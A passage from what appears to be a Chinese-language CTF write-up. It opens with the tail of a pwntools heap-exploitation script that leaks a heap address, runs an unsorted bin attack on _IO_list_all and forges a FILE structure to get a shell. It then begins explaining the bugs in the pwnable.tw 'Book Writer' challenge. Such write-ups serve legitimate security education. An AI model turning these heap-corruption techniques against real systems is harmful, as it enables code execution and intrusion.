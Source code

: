 ```python
    shell_addr = libc_base + gadgets[3]
    io_list_all = libc_base + 0x3c5520
    #leak heap
    Upgrade(0x20,'a'*0x10,1,1)#2
    See()
    p.recvuntil('Name of house : aaaaaaaaaaaaaaaa')
    heap_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0xc0
    log.success('heap base => ' + hex(heap_base))
    #unsorted bin attack

    #Build(0x50,p64(shell_addr)*10,1,1)#4
    payload = p64(system_addr)*10
    payload = payload.ljust(0x400,'\x00')
    payload += p64(0)+p64(0x21)+p32(1)+p32(0x1f)+p64(0)+"/bin/sh\x00"+p64(0x61)+p64(0)+p64(io_list_all-0x10)
    payload += p64(2)+p64(3)+'\x00'*0xa8
    payload += p64(heap_base+0xd0)
    Upgrade(0x10000,payload,2,2)#2

    #gdb.attach(p)
    p.recvuntil('choice : ')
    p.sendline('1')


    p.interactive()

exp()
```

## pwnable.tw Book Writer

### 程序逻辑

程序有4个功能，Add、View、Edit和Info

![menu](./6.jpg)

Add可以添加9个chunk，0x6020a0为chunk_list，0x6020e0为chunk_size_list，注意添加chunk的条件是i>8且chunk_list[i]不为NULL，我们的chunk[8]=chunk_size[0]，从而得到一个可读size超大的堆。

![Add](./7.jpg)

View可以查看堆内容

![view](./8.jpg)

Edit根据size的大小读取数据，并更新新的size为strlen(content)，这里也有漏洞，当分配0x18的堆块并填充0x18时，content会跟下一个堆块的size连上，strlen的大小会包含size的部分。

![edit](./9.jpg)
